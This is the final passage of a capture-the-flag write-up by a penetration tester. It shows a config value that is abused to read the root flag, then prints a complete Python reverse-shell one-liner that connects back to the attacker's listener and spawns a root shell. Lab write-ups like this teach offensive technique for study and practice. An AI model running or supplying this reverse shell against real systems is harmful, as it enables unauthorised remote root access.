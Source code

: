 ```
git_set: cat /root/root.txt
```

and root.txt has been obtained.

If you want to get full access as root within the machine,
just change the git_set to run python reverse shell code.
set a netcat listener on your machine, then run the update file again 
to get a reverse shell as root.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<tun-ip",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

and there is a shell as root!

![image](https://cdn-images-1.medium.com/max/1000/1*9f0q6ovf40ejfQlZO8jrYQ.png)

That's it.

***Written by Alon Presman, Penetration Tester and Ethical Hacker.***



















































